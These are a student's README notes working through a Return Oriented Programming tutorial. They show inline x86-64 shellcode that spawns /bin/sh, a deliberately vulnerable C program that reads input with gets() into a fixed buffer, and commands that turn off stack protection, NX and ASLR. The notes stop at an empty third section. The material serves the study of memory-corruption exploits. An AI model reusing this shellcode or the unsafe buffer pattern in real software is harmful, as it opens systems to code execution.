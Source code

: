 # ROP - Return Oriented Programming 
> source: https://crypto.stanford.edu/~blynn/rop/

## 1. shell.c
- Goal:
    - An inline shell with c.
    ```c
    int main() {
     asm("\
    needle0: jmp there\n\
    here:    pop %rdi\n\
         xor %rax, %rax\n\
         movb $0x3b, %al\n\
         xor %rsi, %rsi\n\
         xor %rdx, %rdx\n\
         syscall\n\
    there:   call here\n\
    .string \"/bin/sh\"\n\
    needle1: .octa 0xdeadbeef\n\
    ");
    }
    ```
- GIF:
    -  ![1](https://github.com/justinfchin/CSrop/blob/master/gif/1.gif?raw)
- Notes:
    -  objdump - displays information from object files
- Problems:
    - I started this with Mac OS, but did not work so I switched to Ubuntu. 
---
## 2. Bad C Code
- Goal:
    -
    ```c
    #include <stdio.h>
    int main() {
        char name[64];
        puts("What's your name?");
        gets(name);
        printf("Hello, %s!\n", name);
        return 0;
    }
    ```
- GIF:
    -  ![2](https://github.com/justinfchin/CSrop/blob/master/gif/2.gif?raw)
- Notes:
    - cdecl calling is a convention for x86 
        - it is a low-level scheme for how parameters, return values, return addresses, and scope. [wiki](https://en.wikipedia.org/wiki/Calling_convention)
    - to get around the three countermeasures:
        1. GCC Stack-Smashing Protector (SSP)
            > $ gcc -fno-stack-protector -o victim victim.c
        2. Executable Space Protection (NX)
            ``` $ execstack -s victim ```
        3. Address Space Layout Randomization (ASLR)
            > setarch `arch` -R ./victim
    - setarch
        - changes the architecture 
- Problems:
    - execstack did not exist
        > sudo apt install execstack
 
---
 
## 3. Bad C Code
- Goal:
    -
    ```
    ```
- GIF:
    -
- Problems:
    -
---

- setarch 
    - changes the reported architecture in new program environment and set personality flags
